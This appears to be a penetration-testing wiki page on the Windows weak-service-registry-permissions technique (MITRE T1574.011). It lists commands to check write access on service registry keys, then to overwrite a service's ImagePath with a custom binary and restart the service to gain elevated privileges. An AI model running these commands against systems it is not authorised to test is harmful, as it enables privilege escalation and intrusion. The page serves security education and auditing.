 ```yaml
---
description: >-
  MITRE ATT&CK™ Hijack Execution Flow - Services Registry Permissions Weakness -
  Technique T1574.011
---
```


# Weak Registry Permissions

## Theory

By hijacking the Registry entries utilized by services, attackers can run their malicious payloads. Attackers may use weaknesses in registry permissions to divert from the initially stated executable to one they control upon Service start, allowing them to execute their unauthorized malware.

## Practice

An attacker can leverage this misconfiguration to modify the ImagePath of service with the path of the custom malicious executable that will give an escalation to the account context the service is set to execute under (local/domain account, SYSTEM, LocalService, or NetworkService).

{% tabs %}
{% tab title="Enumerate" %}
We can check our permissions over services registry doing:

```powershell
#Get the binary paths of the services
reg query hklm\System\CurrentControlSet\Services /s /v imagepath

#Try to write every service with its current content (to check if you have write permissions)
for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a

#With PowerShell
get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"

Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\Services\<ServiceName> | fl
```

Alternativly, we can use [AccessChk](https://learn.microsoft.com/fr-fr/sysinternals/downloads/accesschk) from sysinternals tools to enum permissions over services.

```powershell
#List rights for authenticated users on registry
accesschk64.exe /accepteula "authenticated users" -kvuqsw hklm\System\CurrentControlSet\services

#List everyone rights on registry
accesschk64.exe /accepteula -kvuqsw hklm\System\CurrentControlSet\services

#List everyone rights on specific service registry
accesschk64.exe /accepteula -kvuqsw hklm\System\CurrentControlSet\services\<Name>
```

Or we can use the `servicesinfo` module of [WinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

```powershell
winPEASx64.exe servicesinfo
```
{% endtab %}

{% tab title="Exploit" %}
To change the path of th binary

```powershell
reg add HKLM\SYSTEM\CurrentControlSet\services\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f
```

And then, restart the service

```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc stop <Service_Name>
sc start <Service_Name>
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-modify-permissions" %}

{% embed url="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-modify-permissions" %}
